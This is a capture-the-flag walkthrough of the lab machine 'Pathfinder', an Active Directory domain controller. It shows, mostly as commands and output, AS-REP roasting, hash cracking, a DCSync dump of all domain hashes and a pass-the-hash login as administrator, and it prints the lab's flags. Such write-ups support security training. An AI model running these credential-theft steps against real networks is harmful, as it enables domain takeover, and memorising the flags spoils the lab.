

# Starting Point - Pathfinder

## Enumeration

```
PORT      STATE SERVICE       REASON  VERSION                                                                                                                                     
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-01-04 22:00:22Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

There are many ports open! Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. 

## Preparation
Using the credentials we obtained in a previous machine; `sandra:Password1234!`, we can attempt to enumerate Active Directory. We can achieve this using BloodHound. There is a python bloodhound ingester. It can be installed using pip: `pip install bloodhound`

Then run
```
python3 -m bloodhound -d megacorp.local -u sandra -p 'Password1234' -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```
This will store several json files in the current directory, which will later be imported into Bloodhound.

The next step is to install `neo4j`, which is an open source graph database.
```
$ sudo apt install neo4j
$ sudo neo4j console
```
Afterwards go to `localhost:7474`, connect to the database with the credentials `neoj4:neo4j` and change the password.

The last step is to install bloodhound. BloodHound is an application developed with one purpose: to find relationships within an Active Directory (AD) domain to discover attack paths.

Run it with:

```
sudo bloodhound --no-sandbox
```

It will open a GUI and will ask you for your database credentials, which you have set up when configuring neo4j.

Then, upload all the json files into Bloodhound.

## Analysis 

Bloodhound offeres several Pre-Built Analysis queries



Choosing the "FInd Principles with DCSync Rights", we can see that the svc_bes has GetChangesAll privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.


## Exploitation

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket's GetNPUsers.

```
$ python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:d71a0a828dafb52440d7161c2a46d29c$7eaf00d192586f0c3aa80e8ae980e7e6428c71df4fde76885a5da8aa39cf4a21b0ed392d15a22147d50b3bed445a655de8b3aebe5cd7ecb07a94faad74ed5000c14ec727d5e932ac30cf9fc634ee62d1340088f3cac2c944617c502a7845334cccb9f73129b03e4ca2c7caa95d05475e33ad467bc2faa440976b56484b6ecfa053dce6ce430bceb3517ac5a68a5139eea944bf83581c04a9be9b154a480461b5cfff2e87bb9a322262d3a48116eba863a77ad8da1497a6b1aa353e66fdfce21af5db3a5e972f95516ddce0b05c287338258ed73c4b1cef7dde5fd02b7e750cb7e745a1707e11b4e636a04fdc896586db
```

We obtain the TGT ticket for the `svc_bes` and save it to a file called hash. Now we have to crack it with a tool e.g `john`

```
$ sudo john hash -w=/usr/share/wordlists/rockyou.txt       
[sudo] password for ctf: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:26 DONE (2021-01-04 15:23) 0.03743g/s 396967p/s 396967c/s 396967C/s Sheffwed1..Sheethead?
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It is now possible to access the server as svc_bes using WinRM, and gain user.txt (password: Sheffield19)

```
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```

The user.txt is located on svc_bes's Desktop: `b05fb166688a8603d970c6d033f637f1`

## Privilege Escalation
In order to leverage the GetChangesAll permission, we can use Impacket's secretsdump.py to perform a DCSync attack and dump the NTLM hashes of all domain users.

```
$ python3 secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30                                                                         
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:4daaf43d62196be359323e580d7d1a22:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:9746728aa86c802b483aa9304887a8b60e5f5d5895bfd1c182dbaa5f684226f3
PATHFINDER$:aes128-cts-hmac-sha1-96:a45fe07f2fc61fbebafce78f73a97644
PATHFINDER$:des-cbc-md5:e364941fc7ef5dd3
[*] Cleaning up... 
```

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py.

```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

And we are root! Now we can obtain the root.txt which is located in C:\Users\Administrator\Desktop: `ee613b2d048303e5fd4ac6647d944645`
